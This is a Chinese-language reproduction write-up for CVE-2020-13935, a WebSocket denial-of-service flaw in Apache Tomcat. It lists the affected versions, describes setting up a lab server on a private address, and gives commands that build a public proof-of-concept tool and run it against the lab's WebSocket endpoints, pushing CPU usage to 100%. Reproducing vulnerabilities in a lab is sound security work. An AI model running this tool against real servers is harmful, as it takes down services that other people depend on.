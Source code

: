 # 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：apache-tomcat-8.5.56

# 0x02 环境搭建
靶机系统：2008_r2_standard_zh-chs

下载并解压apache-tomcat-8.5.56  
进入目录bin并执行startup.bat，出现“Server startup in xx ms”，通常表示启动成功，如下图  
![image](./a.png)  
访问[http://172.16.35.133:8080/](http://172.16.35.133:8080/)，确认服务成功启动，如下图  
![image](./b.png)  
JDK的安装配置  
Apache Tomcat安装配置  
Eclipse IDE for Java EE安装配置  
Tomcat运行时环境在Eclipse IDE for Java EE中安装配置  
Eclipse IDE for Java EE中建立动态web项目  
创建"Hello World" Servlet和JSP视图  
在Eclipse IDE for Java EE中运行动态web项目  
导出为WAR文件并部署到Tomcat中  
写好的websocket应用见文件WebSocketServlet.java，部署好的websocket应用见下图  
![image](./a0.png)

# 0x03 利用条件
Tomcat上部署了WebSocket应用

# 0x04 影响版本
9.0.0.M1 <= apache tomcat <= 9.0.36  
10.0.0-M1 <= apache tomcat <= 10.0.0-M6  
8.5.0 <= apache tomcat <= 8.5.56  
7.0.27 <= apache tomcat <= 7.0.104  

# 0x05 漏洞复现
攻击系统：Kali-Linux-2020.2-vmware-amd64  

复现使用自己编写的websocket应用：  
在火狐浏览器的开发者工具的控制台中依次执行WebSocketClient.js中的javascript代码，当执行完“client.connect();”，eclipse中tomcat控制台出现“onOpen::0”时，表示websocket应用部署完成，如下图  
![image](./a1.png)  
导出为DemoTwo.war并部署到tomcat中  
执行如下命令：  
git clone https://github.com/RedTeamPentesting/CVE-2020-13935  
cd CVE-2020-13935  
go build  
./tcdos ws://172.16.35.133:8080/DemoTwo/endpoint  
执行后靶机系统CPU骤升到100%，如下图  
![image](./a2.png)  
此时，tomcat管理控制台显示如下  
![image](./a3.png)

复现使用自带的websocket应用：  
首先访问[http://172.16.35.133:8080/examples/websocket/](http://172.16.35.133:8080/examples/websocket/)确认存在WebSocket应用，如下图  
![image](./f.png)  
执行如下命令：  
./tcdos ws://172.16.35.133:8080/examples/websocket/echoProgrammatic  
执行后靶机系统CPU骤升到100%，如下图  
![image](./c.png)

# 0x06 踩坑记录
坑1：  
执行go build后，可能会报如下错误  
![image](./d.png)  
此时需要一些合理上网方式，成功执行后如下图  
![image](./e.png)  

# 0x07 参考链接
https://www.anquanke.com/post/id/221861  
https://github.com/RedTeamPentesting/CVE-2020-13935  
https://www.pegaxchange.com/2018/01/28/websocket-server-java/  
https://www.pegaxchange.com/2016/09/02/java-eclipse-tomcat/  
https://www.cnblogs.com/xdp-gacl/p/5193279.html  
https://blog.redteam-pentesting.de/2020/websocket-vulnerability-tomcat/

